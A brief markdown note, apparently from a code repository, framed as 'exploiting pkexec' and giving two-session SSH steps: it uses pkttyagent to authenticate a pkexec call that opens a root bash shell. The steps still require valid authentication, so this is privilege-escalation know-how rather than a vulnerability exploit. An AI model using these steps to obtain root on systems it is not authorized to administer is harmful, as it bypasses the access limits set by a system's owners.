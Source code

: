 Exploiting `pkexec` to escalate privileges <br>

*NOTE: you will need two SSH sessions running with the same user*

```
Session 1

# Step1: Get current PID
$ echo $$

# Step 3, execute pkexec
$ pkexec "/bin/bash"

# Step 5, if correctly authenticate, you will have a root session
```

```
Session 2

# Step 2, attach pkttyagent to session1
$ pkttyagent -p <PID of session1>

# Step 4, you will be asked in THIS session to authenticate to pkexec
```
